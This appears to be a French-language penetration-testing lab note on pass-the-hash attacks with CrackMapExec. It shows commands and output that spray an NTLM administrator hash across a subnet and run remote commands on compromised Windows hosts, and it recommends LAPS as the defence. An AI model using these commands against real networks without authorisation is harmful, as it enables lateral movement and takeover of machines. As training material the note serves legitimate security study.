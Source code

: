 [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks.&#x20;

<mark style="color:orange;">**Pass the Hash with CrackMapExec**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]# crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453

SMB         172.16.1.10   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:.) (signing:True) (SMBv1:False)
SMB         172.16.1.10   445    DC01             [-] .\Administrator:30B3783CE2ABF1AF70F77D0660CF3453 STATUS_LOGON_FAILURE 
SMB         172.16.1.5    445    MS01             [*] Windows 10.0 Build 19041 x64 (name:MS01) (domain:.) (signing:False) (SMBv1:False)
SMB         172.16.1.5    445    MS01             [+] .\Administrator 30B3783CE2ABF1AF70F77D0660CF3453 (Pwn3d!)
```
{% endcode %}

Si nous voulons effectuer les mêmes actions mais tenter de nous authentifier sur chaque hôte d’un sous-réseau en utilisant le hash du mot de passe de l’administrateur local, nous pouvons ajouter `--local-auth` à notre commande.

Cette méthode est utile si nous avons obtenu un hash d’administrateur local en vidant la base de données SAM locale sur un hôte et que nous voulons vérifier combien d’autres hôtes nous pouvons atteindre à cause de la réutilisation du mot de passe administrateur local.

Si nous voyons **"Pwn3d!"**, cela signifie que l’utilisateur est administrateur local sur l’ordinateur cible. Nous pouvons utiliser l’option `-x` pour exécuter des commandes à distance.

Il est courant d’observer une réutilisation des mots de passe sur plusieurs machines d’un même sous-réseau. En effet, les organisations utilisent souvent des images système (gold images) avec le même mot de passe administrateur local, ou bien elles définissent ce mot de passe identique sur plusieurs hôtes pour faciliter l’administration.

Si nous rencontrons ce problème lors d’une mission en conditions réelles, une excellente recommandation pour le client est de mettre en place la **Local Administrator Password Solution (LAPS)**. Cet outil permet de générer un mot de passe administrateur local unique pour chaque machine et de le faire tourner à intervalles réguliers pour renforcer la sécurité.

<mark style="color:orange;">**CrackMapExec - Command Execution**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]# crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami

SMB         10.129.201.126  445    MS01            [*] Windows 10 Enterprise 10240 x64 (name:MS01) (domain:.) (signing:False) (SMBv1:True)
SMB         10.129.201.126  445    MS01            [+] .\Administrator 30B3783CE2ABF1AF70F77D0660CF3453 (Pwn3d!)
SMB         10.129.201.126  445    MS01            [+] Executed command 
SMB         10.129.201.126  445    MS01            MS01\administrator
```
{% endcode %}
